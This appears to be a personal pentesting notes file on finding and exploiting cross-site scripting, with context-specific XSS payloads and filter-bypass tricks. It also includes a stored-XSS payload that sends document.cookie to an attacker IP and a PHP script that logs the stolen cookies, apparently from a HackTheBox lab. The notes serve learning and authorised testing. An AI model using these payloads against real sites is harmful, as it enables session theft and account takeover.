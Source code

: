 # Advices for testing xss
* Submit random alphanumeric values. For each entry point, submit a unique random value and determine whether the value is 
reflected in the response
* Test seperatly every entry point: includes also headers, urls, etc.
* Determine the reflection context. For each location within the response where the random value is reflected, determine its context. This might be in text between HTML tags, within a tag attribute which might be quoted, within a JavaScript string, etc => check contexts: https://portswigger.net/web-security/cross-site-scripting/contexts also use to copy tags: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* Test a candidate payload: based on the context of reflection test the field with f.e. burp repeater
* If the candidate XSS payload was modified by the application, or blocked altogether, then you will need to test alternative payloads

# test contexts
## XSS between HTML tags
you need to introduce some new HTML tags designed to trigger execution of JavaScript.
Some useful ways of executing JavaScript are:
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>

* you might notice that tags are being blocked by firewall, you can interate all tags to see which are allowed.

## XSS in HTML tag attributes
XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

"><script>alert('hi')</script> 
OR
" autofocus onfocus=alert(document.domain) x="

<a href="javascript:alert(document.domain)"> 
* \"-alert(1)

## XSS into JavaScript
* Breaking out of JS: </script><img src=1 onerror=alert(document.domain)>  or with alert(1)
* Breaking out of a JavaScript string: `'-alert(document.domain)-'` OR `';alert(document.domain)//` also works with `+alert`
* in case application is escaping `'` => might help: `\';alert(document.domain)//`

## Making use of HTML-encoding
out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further. If the server-side application blocks or sanitizes certain characters that are needed for a successful XSS exploit, you can often bypass the input validation by HTML-encoding those characters. 

* <a href="#" onclick="... var input='controllable data here'; ..."> 
* we can use it to break out of js via encoding with: &apos;-alert(document.domain)-&apos;

## XSS in JavaScript template literals
For example, if the XSS context is as follows:

<script>
...
var input = `controllable data here`;
...
</script> 

exploit: `${alert(document.domain)}`

# types
## Reflected
is withing a payload or url
## Stored
Really stored on a page
<script type="text/javascript">alert(document.cookie);</script>

<script type="text/javascript">document.location='http://10.10.14.42:9001/hack.php?c='+document.cookie;</script>

### script to catch cookie
create php file "hack.php"
```php
<?php
header ('Location:http://moodle.schooled.htb');
$cookies = $_GET["c"];
$file = fopen('log.txt', 'a');
fwrite($file, $cookies . "/n/n");
?>
```
start php server with `sudo php -S 127.0.0.1:9001` on the location of the php file
## Dom
Within javascript